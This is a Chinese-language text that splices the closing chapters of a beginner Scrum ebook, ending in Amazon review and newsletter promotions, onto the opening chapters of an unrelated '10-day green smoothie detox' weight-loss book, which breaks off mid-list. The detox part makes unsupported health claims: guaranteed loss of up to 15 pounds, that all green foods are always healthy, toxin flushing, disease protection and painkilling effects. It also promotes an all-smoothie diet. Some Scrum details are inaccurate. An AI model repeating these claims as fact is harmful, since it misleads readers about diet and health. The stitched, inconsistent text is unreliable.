- 他/她是如何帮助 Scrum 团队实现目标的？
- 他/她可以如何协助团队实现冲刺目标？
- 他/她是否注意到任何阻碍自己或整个 Scrum 团队实现冲刺目标的障碍？

有些人认为，每日会议是为了跟踪项目进度而举行的。然而，这是一个错误的假设。实际上，每日会议是为了规划项目必须完成的工作，而不仅仅是检查已经完成了什么。

根据 Scrum 专家的说法，所有团队成员都对每日会议的生产力和有效性负责。这意味着每位成员都必须协助召开每日会议，尽管 ScrumMaster 会执行其中涉及的管理任务。

以下是每日会议带来的好处：

- 这些会议改善了团队成员之间的沟通。
- 每日会议有助于识别与项目相关的问题。它们还有助于快速、高效地解决问题。
- 它们促进并强调快速决策。
- 它们增进团队成员与项目相关的知识。

## 冲刺评审

Scrum 团队应在结束每个冲刺之前举行此活动。在此阶段，团队成员应在发布项目增量之前对其进行评审（即发布给客户或进入下一个冲刺阶段）。在冲刺评审期间，所有利益相关者（即受项目影响或参与项目的人员）都应检查当前冲刺中完成了什么。这些利益相关者将就下一个冲刺阶段必须完成的事项提出建议。他们的建议将基于两个因素：

- 他们在冲刺评审中的发现
- 当前冲刺期间对项目待办事项列表所做的更改

此阶段的目标是从利益相关者那里获得反馈，并确保持续进展。

一般来说，冲刺评审的持续时间取决于冲刺的时间盒。为期两周的冲刺的评审持续两小时。另一方面，为期一个月的冲刺需要 4 小时的评审；因此，冲刺每持续一周就需要一小时的评审。

在冲刺评审期间，ScrumMaster 应：

- 确保会议召开。
- 告知团队成员冲刺评审的目标/目的。
- 帮助成员聚焦于重要议题。
- 确保会议及时结束。

冲刺评审期间会发生以下事件：

- 产品负责人邀请非团队成员参加评审（可选）。
- 产品负责人讨论项目待办事项列表。他/她将告知所有人已完成的待办事项。然后，他/她将列举冲刺内未完成的待办事项。
- 团队成员讨论冲刺的积极方面、他们遇到的问题以及他们如何解决这些问题。
- 团队成员演示他们已完成的工作。他们还将回答有关项目增量的任何问题（如有）。
- 全体人员（即团队成员和非团队成员）决定下一个冲刺应做什么；因此，评审阶段会产生对下一个冲刺阶段有用的重要输入。
- Scrum 团队成员检查与产品增量发布相关的方面（例如预算、时间线、市场、能力、潜力等）。

冲刺评审完成后，Scrum 团队将更新项目待办事项列表。这些更新定义了将用于后续冲刺的待办事项。

## 冲刺回顾

此阶段发生在下一个冲刺规划阶段开始之前。为期两周的冲刺回顾持续一小时，而为期一个月的冲刺回顾持续三小时。

基本上，冲刺回顾旨在：

- 利用从上一个冲刺阶段收集到的关于工具、人员、流程和关系的信息。
- 确定效果良好的待办事项。
- 识别冲刺的改进领域。
- 制定提高项目有效性和整体质量的计划。

Scrum 允许你回顾以往的表现；因此，它有助于你提高后续冲刺阶段的有效性。

## 第 4 章：工件

在 Scrum 中，“工件”为利益相关者和团队成员提供重要数据；因此，工件使你能了解当前项目、已完成的任务以及项目涉及的流程。Scrum 框架涉及以下工件：

- 项目待办事项列表
- 冲刺待办事项列表
- 增量
- 燃尽图

上面给出的列表显示了 Scrum 框架的必需工件。在某些情况下，Scrum 团队需要其他类型的工件。

让我们详细讨论这四种必需工件：

### 项目待办事项列表

基本上，此工件是一组 Scrum 团队必须添加到产品中的功能/特性。它为团队提供可用于改进项目增量的信息。

项目待办事项列表明确项目所需的功能、特性、修复、增强项和需求。此待办事项列表中的事项具有以下属性：

- 价值
- 顺序
- 描述
- 估算

Scrum 实践者在指代上述任一属性时使用“用户故事”这一术语。一般来说，产品负责人必须处理与项目待办事项列表相关的所有方面（例如内容、排序、可用性等）。

此工件随着项目进展而演进。初始版本可能只包含最基本的需求。随着 Scrum 团队获得更多项目信息，项目待办事项列表将进一步发展。产品负责人必须定期更新此工件以保持其有效性。基本上，只要相关产品存在，项目待办事项列表就会存在。

随着团队推进产品，项目待办事项列表会变成更大、更详细的列表。此外，技术、市场条件或业务需求的变化可能影响项目待办事项列表。这就是为什么许多人将该待办事项列表视为“活的”输出。

项目待办事项列表的细化包括为该工件中的事项添加细节、近似值和优先级顺序。这是产品负责人执行的持续过程。整个团队决定何时以及如何完成细化。

重要提示：产品负责人可根据自身情况随时更新项目待办事项列表。

通常，高优先级待办事项比低优先级事项更清晰、更明确。清晰准确的细节使团队成员能够做出正确估算。

此工件使团队成员能够细化需求，以便将其用于即将到来的冲刺。Scrum 团队能够开发的待办事项被视为已准备好在下一个冲刺规划阶段使用。

### 冲刺待办事项列表

此工件是为冲刺选定的项目待办事项与创建增量并实现冲刺目标的策略的结合。

这种待办事项列表明确可添加到下一个项目增量的功能。它还定义将这些功能添加到产品所需的任务和活动。

当需要新任务时，团队成员会更新冲刺待办事项列表。团队成员还将定期更新剩余任务。显然，每当任务被添加或完成时，告知整个团队很重要。团队还应从此待办事项列表中移除不必要的事项。

请记住，只有团队成员才能修改冲刺待办事项列表。此外，此工件必须对所有团队成员可见且可访问。


## 增量

“增量”一词指的是团队已经完成的项目待办事项。在结束一个冲刺时，增量应当是可用的产品。即使产品负责人还不想发布它，产品也应当是可用的。

整个团队应当就什么会被视为增量达成一致。这对每个 Scrum 团队来说差异很大。但是，每位成员都必须清楚“增量”对团队意味着什么。这使成员能够确定项目的进展或完成情况。

关于增量的知识还能让成员识别必须选择的待办事项。每个冲刺会议的目标都是创建可用产品的增量。

一般来说，每个 Scrum 团队应当在一个冲刺内完成一个产品增量。由于增量是可用的产品，产品负责人可以按原样将其发布到市场。

有些 Scrum 团队将增量知识视为一项要求。这意味着增量知识涉及组织的标准、指南或惯例。如果增量知识不是强制性的，ScrumMaster 必须定义适合该项目的增量。

## 燃尽图

在冲刺会议期间，团队成员可以汇总项目待办列表中剩余的任务。Scrum 团队在每次每日会议上衡量剩余任务。这种方法使团队能够确定实现目标的可能性，并管理他们的进展。

燃尽图是一种跟踪团队已完成活动的技术。敏捷实践者已经使用这种技术来衡量和管理团队的进展。

产品负责人在每次冲刺评审期间跟踪剩余任务。然后，他/她将这些任务与之前冲刺中的任务进行比较。这种方法帮助产品负责人评估团队在完成所分配任务方面的进展。

重要提示：产品负责人必须与每位利益相关者分享此工件。

## 结论

Scrum 涉及不同的输出，这些输出被称为工件。在实施 Scrum 框架时，你必须生成并使用这些工件。通过这样做，你可以提高实现项目目标的机会。

## 第 5 章：用户故事

在“软件开发”行业中，产品功能发挥着重要作用。这些功能吸引消费者，并鼓励他们购买或使用完成后的产品。在一般术语中，产品功能被称为“需求”。软件开发项目的成功取决于是否准确了解用户的需求，并将其融入最终产品。这意味着团队成员在开始任何项目之前，应当知道他们需要处理的需求或产品功能。

美国软件工程师 Kent Beck 在 1999 年创造了“用户故事”这一术语。用户故事从用户的角度叙述，告知软件开发人员最终用户的需求，而不是产品能为最终用户做什么。开发视角从“以产品为中心”转变为“以用户为中心”。由于其有效性，用户故事成为使用任何“敏捷”框架的团队的标准需求。

就 Scrum 框架而言，项目待办列表充当用户故事的集合。ScrumMaster 必须在冲刺计划阶段识别、排列优先级并讨论这些用户故事。

在大多数情况下，Scrum 团队根据项目的用户故事来制定他们的估算和目标。

### 用户故事的结构

用户故事遵循以下格式：

作为 <某种用户>，

我需要 <完成一项任务>，

以便我能够 <实现一个目标/享受一项好处/获得某物。>

我们来分析用户故事是如何形成的。这里，我们假设一位银行客户想从自动取款机（ATM）取钱。

用户故事——客户从 ATM 取款

作为**客户**，我需要**从 ATM 取钱**，以便我能够**不必进入银行就能拿到所需的现金。**

### 验收标准

用户故事包含验收标准（即衡量用户故事有效性的测试）。验收标准帮助 Scrum 团队分析用户故事对当前项目的影响。

以下是上述用户故事的一个简单验收标准：

### 第一项验收标准：

给定信息：
-   客户信用良好。
-   借记卡/信用卡可接受。
-   机器有足够的现金。

情境：
-   客户需要钱。

那么：
-   确保从正确的账户扣款。
-   确保机器取出正确金额。
-   确保机器退还客户的借记卡/信用卡。

### 第二项验收标准：

给定信息：
-   客户的账户没有足够的资金。
-   客户的卡可接受。

情境：
-   客户需要钱

那么：
-   在屏幕上显示拒绝信息。
-   确保机器不取出任何钱。
-   确保机器退还卡。

### 如何编写用户故事

由于项目待办列表保存用户故事，产品负责人负责管理项目的用户故事。但是，产品负责人并不是唯一可以编写用户故事的人。基本上，任何团队成员都可以完成这项任务。这意味着 ScrumMaster 可以将这一责任分散到整个团队。

### 用户故事中的非功能性需求

Scrum 团队可以将非功能性需求纳入用户故事。在上述示例中，非功能性需求是 ATM 的 7×24 小时可用性。

### 如何管理用户故事

你应当使用项目待办列表来管理用户故事。通常，Scrum 团队根据用户故事的重要性来安排它们。最重要的故事会被充分完善，而不重要的故事只会进行最低限度的工作。对于每个冲刺，产品负责人将最重要（也最详细）的用户故事记录在冲刺待办列表中。在将用户故事添加到任何待办列表时，产品负责人会检查其优先级：他/她将根据优先级把用户故事放入项目待办列表。

重要提示：团队成员可以根据自身情况移除用户故事或重新排列其优先级。

### 用户故事带来的好处

-   用户故事帮助开发团队关注最终用户。这一点很重要，因为最终用户最终会在产品发布到市场后购买并使用它。因此，用户故事帮助 Scrum 团队与最终用户建立联系。
-   用户故事的结构帮助 Scrum 团队确定最终用户想要实现的目标/价值/好处。
-   验收标准是任何用户故事的重要方面，可以帮助 Scrum 团队客观地分析他们的项目。
-   Scrum 团队的成员可以在处理项目时修改用户故事。例如，如果用户故事的范围变得过大，他们可以将其拆分为更小的用户故事。团队成员还可以更改用于项目的验收标准。
-   由于 Scrum 团队在每次冲刺结束时向客户交付产品增量，他们可以获得可用于后续冲刺的反馈和建议。

### 结论

用户故事让你更接近项目的最终用户；因此，这些故事可以帮助你生成可用的产品并防止不良结果。

## 第 6 章：估算

Scrum 团队应当在计划阶段进行估算。这些估算的目的是根据优先级和团队能力分析用户故事。产品负责人确保最高优先级的用户故事可理解、可用于估算，并被纳入项目待办列表。

由于整个团队负责完成和交付项目增量，因此在选择用户故事时应格外小心。团队成员需要根据增量的目标规模和项目中所需的总体工作量来做出决定。

重要提示：增量的大小通过故事点来衡量。在确定增量大小后，团队应当使用之前冲刺的数据来估算所需的工作量。


## 估算中使用的技术

在进行估算时，请关注每个用户故事的复杂/困难程度。以下是你可用于评估用户故事难度或复杂度的分级方法：

- 数字分级法——这是一种从 1 到 10 的分级。
- 衬衫尺码法——（S、XS、M、L、XL 等）
- 斐波那契数列法——在这种分级中，你要将一个数字加到它前面的数字上。其和将作为下一个数字。

### 扑克估算方法

在这种方法中，你将通过玩类似扑克的纸牌游戏来得出估算。整个团队都可以参与实施这种方法。借助扑克估算，你可以生成可靠的估算，而无需花费太多时间或精力。

这种方法需要多副扑克牌。使用牌面上印有的数字，遵循斐波那契数列。牌面上的数字代表故事点（即用于衡量用户故事的值）。

每位成员都应有一副牌。你必须指定一名主持人——此人将朗读用户故事的描述/说明。产品负责人将回答会议期间提出的任何问题。

团队成员（也称为“估算者”）应私下选择一张牌来表达自己的估算。估算者应隐藏自己的牌，直到所有人都选好一张牌。一旦每个人都选好牌，他们应同时亮出自己的估算。

首轮估算可能会出现很大差异。每位估算者都应解释自己的估算。确保不提出针对个人的问题——团队成员应专注于解释自己的意见/决定。

当用户解释自己的意见时，主持人应做记录。这些记录有助于团队完善用户故事。一轮完成后，每位成员应再次进行估算。他们应隐藏自己的牌，直到所有人都作出选择。然后，他们应同时亮牌。

重复此过程，直到得出单一估算值。请记住，所需估算轮数可能因你正在处理的用户故事而异。

### 扑克估算方法中使用的技巧

- 类比——这种方法要求你比较用户故事。基本上，你应将当前用户故事与已实现的故事进行比较。由于该方法基于实际数据，因此能产生准确的结果。
- 分解——在这种估算方法中，你要将用户故事拆分为更小的故事。冲刺中使用的用户故事通常持续三到六天；因此，如果你遇到持续七天或更久的用户故事，就必须将其分成更小、更易管理的部分。额外好处是，这种方法有助于确保你拥有可比较的用户故事。
- 专家意见——这种方法需要行业专家的反馈/建议。由于每位团队成员都密切参与 Scrum 项目，他们对相关主题拥有足够的知识和经验；因此，他们可被视为“专家”。在这里，专家将基于自己的经验和知识、而非直觉来提出意见/估算。

### 结论

扑克估算法是一种有趣且高效的方法，可用于生成 Scrum 估算。由于它允许人们分享和讨论意见，团队将获得关于当前用户故事的更多信息。

## 结论

再次感谢您下载本书！

希望本书能帮助您在短短两周内掌握 Scrum 的基础知识。

下一步是在完成您的计算机程序时使用这个开发框架。

最后，如果您喜欢本书，我想请您帮个忙：能否在 Amazon 上为本书留下评论？不胜感激！

点击此处，在 Amazon 上为本书留下评论！

另外，请务必订阅我的技术和编程新闻简报，以获取免费书籍并了解更多编程方法。点击此处。

谢谢，祝您好运！

点击此处获取使用 Bluehost 设置 WordPress 网站的分步说明。

## 额外福利：获取我提供的更多免费书籍！

感谢阅读本书！希望您从中获得了极大价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢您！

只需点击下方链接，并在我的网站上输入您的电子邮件地址！

如果您认真想要改变自己的编程技能，那么您将获得的一切都会对您有用。我将提供：

- 我写的更多书籍
- 我如何在创纪录的时间内学会编程
- 关于我最喜欢的编程相关产品的信息
- 以及更多内容！

点击此处获取所有这些信息！

# 10天绿色果昔排毒法

## 经证实可减重多达15磅的食谱

底部免费报告含额外内容

此外，还可在 [KindleBookSpot.com](KindleBookSpot.com) 获取更多免费及特价书籍

## 目录

- 引言
- 第1章：了解10天绿色果昔排毒计划
- 第2章：一种有趣且健康的减重方式
- 第3章：如何进行10天排毒
- 第4章：10个经证实有助于减重的绿色果昔食谱
- 第5章：DIY绿色果昔食谱
- 第6章：绿色果昔的实用技巧
- 第7章：绿色果昔+健康生活方式：幸福长寿
- 结论

## 引言

我想感谢并祝贺您下载《10天绿色果昔排毒：经证实可减重多达15磅的食谱》一书。

本书包含经证实的步骤和策略，教您如何减掉多余体重，并过上更健康、更快乐的生活。

为什么大多数人一想到健康和健身，第一反应就是感到气馁，并表现得好像这个想法根本不存在？诚然，我们不可能都成为健身专家，但如果您真的想恢复体形，有一些技巧可以帮助您打造一直想要的身材。无论是减重还是获得更多精力，进行果昔排毒都是开启更健康生活方式的最有效方法之一。

尽管身体燃烧储存脂肪的天然能力会随着年龄增长而减慢，但这并不意味着您应该放弃健身目标。无论您处于人生的哪个阶段，仍然可以做很多事情来改善您的身体、心理和生理健康，而阅读本书就是迈向一直想要的生活的第一步。

本书旨在教您如何通过进行果昔排毒，开始更健康、更绿色的生活方式。这并不是一种帮助您快速减重的流行节食法，而是应鼓励您利用果昔排毒做出更健康的生活方式选择，并在此过程中重置您的生活方式。

### 本书适合谁？

- 适合那些厌倦了尝试根本不起作用的速成节食法的人。
- 适合那些想用精力来增强力量的人。
- 适合那些想选择更健康食物并恢复正常饮食规律的人。
- ……以及更多人群！

那么您还在等什么？现在就开始阅读，并在今天改变您的生活方式！

再次感谢您下载本书，希望您喜欢！

别忘了在底部查看我最喜欢的饮食法之一：

**了解我通过3周饮食法快速减掉顽固多余脂肪所使用的策略。**

***前往底部获取更多信息，并领取您的免费报告和额外内容！***

## 额外福利：获取我提供的更多免费视频和书籍！

感谢阅读本书！希望您从中获得了极大价值。我想通过赠送更多与健康相关的免费视频、书籍和信息来感谢您！

只需点击下方链接，并在我的网站上输入您的电子邮件地址！

如果您认真想要改变自己的饮食和健康，那么您将获得的一切都会对您有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 关于我最喜欢的健康相关产品的信息
- 以及更多内容！

点击此处获取所有这些信息！


## 第 1 章：了解 10 天绿色冰沙净化计划

一种减肥和变得更健康的新方式正在兴起。隆重介绍：10天绿色冰沙净化计划。这项饮食计划旨在实现以下目标：

- 重新训练味蕾。
- 通过提高新陈代谢促进脂肪燃烧。
- 消除对甜食、加工食品及其他不健康食物的渴望。
- 节省金钱和时间。
- 为运动及其他剧烈活动提供额外能量。
- 清除体内毒素及其他杂质。
- 有效减重最多15磅，并减掉腰部多余脂肪。

只需使用绿色冰沙进行为期10天的净化或排毒，所有这些皆可实现。

### 绿色正当道！

谈到健康，绿色正是当下的潮流。如今，人们越来越注重健康。然而，许多人对该遵循哪份健康指南感到困惑。如果只依据互联网上的现有信息，他最终可能会迷失困惑，而非获得启发。

例如，有人会看到一篇文章宣传咖啡的益处，而另一篇文章却讲饮用咖啡的危险。一篇文章会强调需要限制碳水化合物摄入，另一篇却提倡高碳水化合物饮食。

对于绿色食物而言，这不成问题。任何绿色的东西（无论是饮品、水果、坚果还是蔬菜）始终属于健康类别。各项研究和调查也已证明，绿色（食物或饮品）如何能成为甩掉多余体重的最佳工具。它们热量低，而且大多数是富含促进脂肪释放的营养素的来源。这些营养素通过将身体的脂肪储存模式转变为脂肪融化模式来发挥作用。

以下是一些健康绿色食物的示例：

### 绿色叶菜

1. 羽衣甘蓝
2. 菠菜
3. 蒲公英
4. 罗马生菜
5. 黄瓜
6. 芝麻菜
7. 小白菜
8. 甜菜叶
9. 胡萝卜缨
10. 宽叶甘蓝
11. 萝卜缨
12. 芥菜
13. 芜菁叶
14. 西洋菜
15. 嫩叶菜
16. 生菜
17. 蒲公英叶

### 绿色水果

1. 牛油果
2. 青苹果
3. 青葡萄
4. 猕猴桃
5. 青芒果
6. 番荔枝或糖苹果
7. 释迦果
8. 香蕉
9. 青柠
10. 番石榴
11. 梨

### 绿色饮品

1. 绿茶
2. 绿色果汁
3. 绿色冰沙

### 绿色坚果

1. 开心果
2. 南瓜籽

### 其他“绿色”食物

1. 海藻
2. 香草
3. 青橄榄

减肥不必昂贵、无聊或困难。借助10天绿色冰沙净化计划，甩掉那些多余的脂肪和体重既有趣又轻松。走向绿色！走向健康！

## 第 2 章：一种有趣又健康的减肥方式

10天绿色冰沙净化确实是一种有趣又轻松的减肥和变得更健康的方式。与其他减重计划不同，这种净化方式更有可能被完整执行（因此，其益处也会更完整），原因如下：

- 它不耗时。时间是许多人的头号敌人。他们根本没有额外时间去做事情，即使事情关乎自己的健康。而采用绿色冰沙净化，制作一整天要喝的饮品只需大约5-10分钟。没错，就是这么简单。以下是制作冰沙的3个基本步骤。
  - 始终从液体原料开始。可以是水、椰奶、鲜榨果汁、花草茶或杏仁奶。这样可以防止搅拌机刀片被固体原料卡住。因此，搅拌原料会更容易、更快捷。
  - 加入基底。这些是能让冰沙真正变得细腻顺滑的原料。例如原味酸奶、水果（如香蕉、芒果、梨和苹果）、坚果酱以及奇亚籽凝胶。
  - 加入水果、蔬菜和可选添加物。添加物包括以下任意一种：
    - 甜味剂
    - 盐
    - 香料
    - 蛋白粉
    - 其他超级食物（可可、亚麻籽、蜂花粉、大麻籽、芦荟、玛卡及其他椰子产品）
- 它很美味。许多饮食计划失败，是因为节食者无法忍受餐食的味道。绿色冰沙净化计划并非如此。人们实际上可以调整原料以适合自己的口味。不过，要注意不要加入过多糖分（无论是通过甜味剂还是水果），否则重新训练味蕾的目的就会落空。

  最初3天，允许采用70%水果和30%蔬菜的比例。水果的甜味会主导口感。然而之后，比例应反过来。不过不用担心。到那时味蕾应该已经适应了。此人最终会不再渴望甜食。

- 无需忍饥挨饿。冰沙加上零食会在全天食用。不会出现饥饿感迫使节食者再次转向精制碳水化合物和甜食。这些冰沙虽然分量不大，却很有饱腹感。因此，即使分量少于平时摄入量，人也会感到饱足。饱腹感也比平常持续更久。因此，人要过几个小时才会再次感到饥饿。这减少了节食者的总食物摄入量，从而带来体重减轻。
- 会有额外能量。这些富含营养的冰沙为个人提供额外能量，可用于运动和其他高强度锻炼，进而让他更快减重。这是怎么回事？这些绿色冰沙的热量是完整的，不含空热量，而空热量正是体重增加的罪魁祸首。不过，对于能量需求更大的人，可以在冰沙中加入肉类或蛋白粉。
- 它负担得起。这个计划不需要昂贵的机器（嗯，当然搅拌机除外，但这不算，因为它并不真的很贵）。水果和蔬菜可以在任何当地杂货店买到。那些偏爱有机原料的人甚至可以开辟自己的室内菜园。这将进一步为节食者省钱。

  借助这个计划，节省数百甚至数千美元是可能的。每天一杯绿色冰沙的花费不到10美元。10天内，总花费不到一百美元。没有其他减肥计划能吹嘘拥有与本计划同样可观的节省。

- 它能改善人的情绪。绿色冰沙的大多数原料都能促进“感觉良好”的大脑化学物质释放。例如内啡肽、血清素和多巴胺。它们还起到镇痛作用，缓解人身上现有的任何身体疼痛。人会对自己感觉良好，因而在工作和学习中表现更好，也能与他人更好地相处。
- 它能保护人免受众多疾病侵袭。充满毒素的身体无法按其设计运作。器官也会难以履行职责，导致身体虚弱、易受疾病侵害。绿色冰沙的原料富含维生素、矿物质和电解质，这些都有助于保护和增强免疫系统。因此，人能够抵御病毒和细菌。
- 它让人看起来更年轻。清除体内杂质能为皮肤带来奇妙效果。只需一周，就能期待肌肤焕发光彩、美丽动人。此外，头发也会变得更亮泽、更顺滑，增添青春光彩。所有这些效果都会让人看起来更年轻。

想象一下10天绿色冰沙净化计划在身体、心理、情感甚至经济方面的益处。的确，有百利而无一害。


## 第 3 章：如何进行 10 天净化法

10天绿色果昔净化法就像1-2-3一样简单。不过，在开始净化计划之前，需要先做好以下准备：

- 此人应告知其初级保健医生自己打算进行排毒。这样可确保当前或未来的医疗干预不会受到该计划影响。在排毒前进行一次常规体检也是安全的，以便在需要时获得基线信息。
- 此人必须尽可能了解这个净化计划的一切。不能只靠道听途说。这个计划对朋友有效，并不意味着对他也自动有效。他可能患有某种不允许他进行此类计划的疾病。
- 只能使用生食材。优先选择有机食材。还应轮换使用绿叶蔬菜，以避免生物碱蓄积。

以下是进行10天绿色果昔净化法的分步流程。

- 1. 选择使用两种净化计划中的哪一种。
  - 1. 完整净化——此人被要求每天总共摄入60盎司果昔，分为三餐。这意味着10天内所有餐食都只由绿色果昔组成。
  - 2. 改良完整净化——对于无法耐受完整净化计划的人，可选择在10天内每天只喝2份绿色果昔，并吃一顿清淡餐（最好在晚餐时）。减重效果可能不如完整净化那么显著，但采用改良完整净化仍可预期减掉5-10磅。

请注意，减肥者可根据自己的偏好和能力在两种类型之间切换。

- 2. 开始从常规饮食逐步过渡到10天绿色果昔净化法。怎么做？在计划第一天，减肥者可以只喝一份绿色果昔，最好在早晨。午餐和晚餐应只吃清淡餐。第二天，他可以在早餐和午餐时喝绿色果昔，晚餐时吃一顿清淡餐。第三天，他可以按照上述说明开始完整净化计划。

- 3. 完成10天排毒后，减肥者必须注意逐步恢复进食固体食物。怎么做？不能在第11天就直接吃厚重、固体的餐食。那可能让他恶心和腹胀。相反，他应将一顿绿色果昔餐替换为一顿清淡餐。第12天，他可以继续将2顿果昔餐替换为两顿清淡餐。第13天，他可以吃3顿固体但清淡的餐食。第14天，他现在可以恢复以前的饮食。

以下是净化计划期间和之后需要记住的其他重要事项。

- 他必须全天喝超过8杯水。也鼓励喝花草茶。

- 如果他在两餐之间感到饥饿，可以将以下食物作为零食：
  - 苹果
  - 芹菜
  - 黄瓜
  - 胡萝卜
  - 高蛋白食物，如煮鸡蛋、无糖花生酱和一把生坚果或无盐坚果。

- 最长净化时间为14天。理想时间是10天。减肥者不应超过规定的天数。长期只吃糊状食物也有若干医学上的不利之处。如果需要再次净化，他可以在恢复正常饮食1个月或2个月后重复此过程。

这些步骤简单易行！此外，这个净化计划能在短短几周内有效帮助减肥者达到理想体重。

## 第 4 章：10 个经过验证的绿色果昔食谱，助你减肥

以下绿色果昔食谱美味、实惠、易于制作，最重要的是，能在10天内有效让人更苗条、更健康。

### 食谱 # 1 - 牛油果能量果昔

食材：

- ½个中等大小的牛油果
- 1杯水
- ½杯冷冻或新鲜蓝莓
- ½汤匙椰子油
- ½汤匙蜂蜜（可选）。也可以用枫糖浆或甜菊糖替代。有些人用½根香蕉增加甜味。
- 1汤匙奇亚籽（也可以使用奇亚籽凝胶）
- ¼茶匙肉桂

先搅拌液体（水、椰子油），然后加入基底（香蕉、蜂蜜、奇亚籽或凝胶、肉桂）。当混合物已经呈奶油状时，加入水果和剩余食材。立即饮用。将多余的果昔放入冰箱，以保持其全天新鲜。

### 食谱 # 2 - 三重绿色果昔

这个食谱使用三种绿色食材——菠菜、绿茶和牛油果。这得有多强大，对吧？食材包括：

- ½个中等大小牛油果
- 1杯绿茶
- 1杯菠菜
- 1杯熟芒果块
- ½汤匙椰子油
- 少量蜂蜜或枫糖浆（取决于对甜度的偏好。有时芒果足以让果昔尝起来甜）。
- 少许海盐

同样，将所有食材混合搅拌，冷食。如果质地太稠，只需加少量水。如果没有芒果块，可以用葡萄替代。三重绿色果昔有三倍美味，也有三倍功效。

### 食谱 # 3 – 菠菜-石榴-草莓绿色果昔

这款果昔将有两层。底层是粉红色，上层是绿色。它看起来诱人，味道也很棒。

底层食材如下：

- 1根冷冻小香蕉
- 1杯草莓
- ½杯椰子水

将食材搅拌在一起，倒入高玻璃杯中。

上层食材包括：

- 1杯菠菜
- 1根小香蕉
- ¼杯石榴
- ¼杯椰子水

将这些食材搅打成果昔后，立即倒在底层上面。冷藏后冷食。这是一款富含抗氧化剂的强力饮品，非常适合进行高强度锻炼的人。

### 食谱 # 4 - 羽衣甘蓝绿色果昔惊喜

食材包括：

- 1杯羽衣甘蓝
- ½杯椰奶
- 1 ½杯菠萝
- 1根熟小香蕉

可以用苹果代替香蕉。它将带来相同的健康益处。同时，味道也会令人愉悦。

### 食谱 # 5 – 燃脂绿茶果昔

食材是：

- ¾杯绿茶
- 2-3汤匙柠檬汁
- 2茶匙龙舌兰蜜
- 1/8茶匙卡宴辣椒粉
- 1个带皮小梨
- 2汤匙原味酸奶
- 6-8块冰块

喝这款果昔有望更快减重。主要食材绿茶已知能促进新陈代谢，从而增强其燃脂能力。

### 食谱 # 6 – 菠菜芒果组合绿色果昔

将以下食材放入搅拌机中：

- 2杯菠菜叶或嫩菠菜
- 1杯新鲜芒果块
- 1根小香蕉
- ¾杯椰奶
- ½杯橙汁

可选食材包括：

- 1汤匙椰子酱，用于补充蛋白质并增添更美味的风味
- 1汤匙亚麻籽——研磨后可作为蛋白质和欧米伽3来源

一款清爽的果昔，保证令人愉悦，同时能有效减掉多余体重。

### 食谱 # 7 – 健康美味的绿色果昔惊喜

食材：

- 1杯牛奶——无脂
- ½杯无脂酸奶
- 1根小香蕉
- 2杯新鲜菠菜
- 1汤匙花生酱
- 冰块

这款果昔最适合那些需要摄入菠菜但讨厌其味道的人。花生酱实际上有助于去除菠菜的特殊味道。这样人们就能享受绿色蔬菜，并在此过程中变得更健康。

### 食谱 # 8 - 宽叶甘蓝果昔之悦

食材包括：

- 2杯宽叶甘蓝
- 2汤匙鲜榨青柠汁
- 1杯绿葡萄
- ½杯芒果

不要过度搅拌食材。如果没有宽叶甘蓝，可以使用菠菜。多加些水使其不那么浓稠。冷藏后冷食。


### 食谱 #9 – 蛋白质能量绿色果昔

配料包括：

- ¼杯冷冻芒果
- ½杯红葡萄柚汁
- 1个大苹果（去核切块）
- 1杯羽衣甘蓝
- 1杯黄瓜
- ½杯芹菜
- 3汤匙火麻仁
- 1/8杯薄荷叶（新鲜）

可选配料：

- 冰块
- ½汤匙初榨椰子油

将所有配料搅拌至顺滑。如果混合物太稠，加少量水。倒入杯中享用。这是剧烈运动后的绝佳果昔饮品。

### 食谱 #10 热带奇境绿色果昔

这是一款能让人感觉自己正在热带岛屿度假的果昔。在这个过程中，他还能减掉体重。

配料如下：

- 2杯菠菜
- 1杯冷冻芒果
- 1杯冷冻菠萝
- 1根熟香蕉
- 1杯牛奶
- 1茶匙香草精
- 按口味添加的甜味剂
- 1杯喜欢的浆果（草莓、覆盆子、蓝莓）。可选。

搅拌。倒入高杯中。插一把小伞作装饰。坐下或躺下，让魔法开始。

如果这10款食谱不符合节食者的味蕾，不要灰心。下一章旨在帮助特定节食者在效果和风味方面找到自己所寻找的东西。继续阅读！

## 第 5 章：DIY 绿色果昔食谱

不同的人有不同的需求和偏好。制作绿色果昔时也是如此。这个10天净化计划最棒之处在于，人们可以调整果昔配料以满足自己的需求和口味。怎么做？自己动手制作绿色果昔就是答案。

如何操作？首先，节食者必须评估以下方面：

- 他的身体需求。他是否进行高强度锻炼？他是在工作还是学习？他是否需要比平时更多的能量？
- 他的目标。他想减掉多少磅？
- 他的口味偏好。他喜欢甜味还是咸味？或者，他更喜欢辛辣食物？
- 他的预算。为这个计划分配多少预算？

利用这4个因素，他现在可以着手规划自己的绿色果昔。以下是基础食谱。配料包括：

- 2杯蔬菜
- 2杯液体基底（可以是水、椰奶、杏仁奶或椰子水）
- 3杯水果
- 添加物

混合并搅拌，按照制作果昔的步骤操作。配料可以是任何东西。节食者需要做的就是不断尝试，直到找到适合自己的组合。对于有创意的节食者，他可以尝试数百种（甚至数千种）水果、蔬菜、液体基底和添加物的组合。仅用这4种基础配料，他能做的没有限制。

### 口味测试

果昔的主导味道取决于水果和添加物。如果节食者想要更甜一些，那么应使用芒果、葡萄、香蕉、椰枣、山竹、木瓜和柿子。至于添加物，他可以加入甜菊糖、枫糖浆或蜂蜜。

如果节食者喜欢酸味，可以从蔓越莓、葡萄柚、柠檬、青柠、橙子、石榴和番茄中选择。

### 更多能量，更多乐趣！

添加物在提供节食者所需的热量、蛋白质和其他营养方面起着重要作用。例如，如果他当天要进行高强度锻炼，他可能想加入蛋白粉或富含蛋白质的水果，如牛油果和香蕉。他还可以搅拌瘦肉、鸡肉、鱼、大豆、豆腐和其他高蛋白食物。它们能为接下来的剧烈活动提供额外能量。

确实有成千上万的食谱可以让人保持健康、减轻体重并更有活力！

### DIY绿色果昔的推荐配料有哪些？

除了出色的燃脂能力外，这些配料还带来许多其他健康益处。一个人的DIY果昔应至少包含其中一两种配料。

- 1. 牛油果——长期以来被视为超级食物，因为其富含以下成分：
  - 健康脂肪——对心脏有益
  - 维生素E
  - 维生素K
  - 叶酸
  - 维生素B6
  - 维生素B5
  - 钾
  - 此外，还含有少量镁、锌、铜、锰、铁以及维生素B1、B2和B3。

仿佛这些还不够，牛油果还富含纤维。它们含有大量抗氧化营养素，如叶黄素和玉米黄质，这两者都对眼睛健康很重要。据信它们可减少白内障和黄斑变性的发生率。

